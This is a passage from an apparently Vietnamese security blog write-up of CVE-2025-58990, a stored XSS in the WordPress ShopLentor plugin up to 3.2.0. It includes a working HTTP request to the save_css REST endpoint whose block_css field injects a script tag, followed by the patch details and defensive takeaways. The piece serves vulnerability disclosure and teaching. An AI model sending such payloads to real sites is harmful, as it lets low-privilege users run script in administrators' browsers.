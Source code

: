 {{< figure src="api_search.png" caption="wpApiSettings" >}}

Gửi request với **X-WP-Nonce** có giá trị vừa lấy được

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**

{{< figure src="preview.png" caption="Preview" >}}

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

**View source code**

{{< figure src="code.png" caption="Code" >}}

## Conclusion

Lỗ hổng **CVE-2025-58990** trong plugin **ShopLentor <= 3.2.0** cho phép **contributor** chèn CSS độc hại dẫn đến Stored XSS khi admin/author preview hoặc xem post. Bản vá **3.2.1** bổ sung kiểm tra quyền và sanitize CSS, ngăn chặn khai thác.

**Key takeaways**:

* Luôn kết hợp **kiểm tra quyền** và **sanitize** dữ liệu khi xử lý input từ người dùng.
* Các role thấp (như **contributor**) vẫn có thể trở thành điểm tấn công nếu API không bảo vệ đúng cách.
* **Stored XSS** trong WordPress thường xuất hiện khi dữ liệu được lưu DB/file => render inline mà không lọc.
* Việc cập nhật plugin kịp thời là biện pháp phòng thủ đơn giản nhưng hiệu quả nhất.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[ WordPress ShopLentor Plugin <= 3.2.0 is vulnerable to Cross Site Scripting (XSS) ](https://patchstack.com/database/wordpress/plugin/ShopLentor/vulnerability/wordpress-ShopLentor-plugin-1-0-5-cross-site-scripting-xss-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-05-cve-2025-58990/  

